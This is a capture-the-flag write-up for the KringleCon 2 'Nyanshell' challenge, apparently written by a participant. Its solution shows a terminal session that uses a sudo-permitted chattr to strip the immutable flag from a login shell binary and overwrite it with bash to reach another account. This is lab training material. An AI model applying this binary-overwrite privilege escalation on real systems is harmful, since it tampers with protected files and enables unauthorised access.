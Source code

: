 # 2. Secondary Objectives
## 2.8. Nyanshell
### 2.8.1. Description
Speaking with Alabaster Snowball:
>Every time I try to log in, I get accosted with ... a hatted cat and a toaster pastry? I thought my shell was Bash, not flying feline. When I try to overwrite it with something else, I get permission errors. Have you heard any chatter about immutable files? And what is sudo -l telling me?

Nyanshell motd:
```
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░░░░░░░▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄░░░░░░░░░
░░░░░░░░▄▀░░░░░░░░░░░░▄░░░░░░░▀▄░░░░░░░
░░░░░░░░█░░▄░░░░▄░░░░░░░░░░░░░░█░░░░░░░
░░░░░░░░█░░░░░░░░░░░░▄█▄▄░░▄░░░█░▄▄▄░░░
░▄▄▄▄▄░░█░░░░░░▀░░░░▀█░░▀▄░░░░░█▀▀░██░░
░██▄▀██▄█░░░▄░░░░░░░██░░░░▀▀▀▀▀░░░░██░░
░░▀██▄▀██░░░░░░░░▀░██▀░░░░░░░░░░░░░▀██░
░░░░▀████░▀░░░░▄░░░██░░░▄█░░░░▄░▄█░░██░
░░░░░░░▀█░░░░▄░░░░░██░░░░▄░░░▄░░▄░░░██░
░░░░░░░▄█▄░░░░░░░░░░░▀▄░░▀▀▀▀▀▀▀▀░░▄▀░░
░░░░░░█▀▀█████████▀▀▀▀████████████▀░░░░
░░░░░░████▀░░███▀░░░░░░▀███░░▀██▀░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

nyancat, nyancat
I love that nyancat!
My shell's stuffed inside one
Whatcha' think about that?

Sadly now, the day's gone
Things to do!  Without one...
I'll miss that nyancat
Run commands, win, and done!

Log in as the user alabaster_snowball with a password of Password2, and land in a Bash prompt.

Target Credentials:

username: alabaster_snowball
password: Password2
elf@e60e948135e9:~$
```
### 2.8.2. Solution
```
elf@e60e948135e9:~$ sudo -l
Matching Defaults entries for elf on e60e948135e9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elf may run the following commands on e60e948135e9:
    (root) NOPASSWD: /usr/bin/chattr
```
Trying to su to alabaster_snowball with `elf@e60e948135e9:~$ su alabaster_snowball` returns the below image:
![Nyancat](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/07%20-%20Nyanshell/Nyancat.png)
```
elf@e60e948135e9:~$ cat /etc/passwd | grep alabaster
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
elf@e60e948135e9:~$ xxd /bin/nsh  | head -n 1
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
elf@e60e948135e9:~$ chattr -i /bin/nsh 
chattr: Permission denied while setting flags on /bin/nsh
elf@e60e948135e9:~$ sudo chattr -i /bin/nsh
elf@e60e948135e9:~$ dd if=/bin/bash of=/bin/nsh
2282+1 records in
2282+1 records out
1168776 bytes (1.2 MB, 1.1 MiB) copied, 0.00964688 s, 121 MB/s
elf@e60e948135e9:~$ su alabaster_snowball
Password: 
Loading, please wait......



You did it! Congratulations!

alabaster_snowball@e60e948135e9:/home/elf$
```
### 2.8.3. Afterwords
Speaking again with Alabaster Snowball:
>Who would do such a thing?? Well, it IS a good looking cat. Have you heard about the Frido Sleigh contest? There are some serious prizes up for grabs. The content is strictly for elves. Only elves can pass the CAPTEHA challenge required to enter. I heard there was a talk at KCII about using machine learning to defeat challenges like this. I don't think anything could ever beat an elf though!